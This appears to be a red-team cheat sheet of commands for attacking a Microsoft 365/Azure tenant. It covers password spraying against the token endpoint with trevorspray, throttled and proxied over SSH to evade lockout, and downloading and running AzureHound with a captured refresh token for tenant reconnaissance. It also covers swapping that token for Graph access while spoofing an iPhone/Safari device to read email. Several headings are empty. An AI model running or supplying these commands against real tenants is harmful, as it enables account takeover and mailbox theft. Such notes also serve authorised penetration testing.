 
### Spray Token Endpoint
```bash
tenant="shrine.cloud"
password="Password123!"
proxy1="proxywars.eastus.cloudapps.azure.com"
Proxy2="sorrowset-ec2.straightchillin.com"
trevorspray -u emails.txt -p $password  --url $url --delay 60 --lockout-delay 60 --jitter 30 --ssh ansible@$proxy1
```


### Default Endpoint Spray Slow over Proxy
```bash
trevorspray -u emails.txt -p $password --delay 60 --lockout-delay 60 --jitter 30 --ssh user@$proxy1
```

## Tenant Recon

## Azure Hound

### Refresh Token
```powershell 
$tok = $response.refresh_token
```


### Azurehound from Linux
```powershell 
iwr https://github.com/BloodHoundAD/AzureHound/releases/download/rolling/azurehound-linux-amd64.zip -o .\azurehound.zip
expand-archive ./azurehound.zip
./azurehound/azurehound -r $tok list --tenant $tenant-o ./azurehound.json 
```


### Azurehound from Windows
```powershell 
  iwr https://github.com/BloodHoundAD/AzureHound/releases/download/v1.2.4/azurehound-windows-amd64.zip -o azurehound.zip
  expand-archive ./azurehound.zip
  .\azurehound.exe -r $tok list --tenant $tenant-o azurehound.json
```
 


## Email Recon

### Browse inbox folders

### Refresh to Graph as iPhone/Safari 
```powershell 
RefreshTo-MSGraphToken -refreshToken $response.refresh_token -domain $tenant -Device iPhone -Browser Safari
```

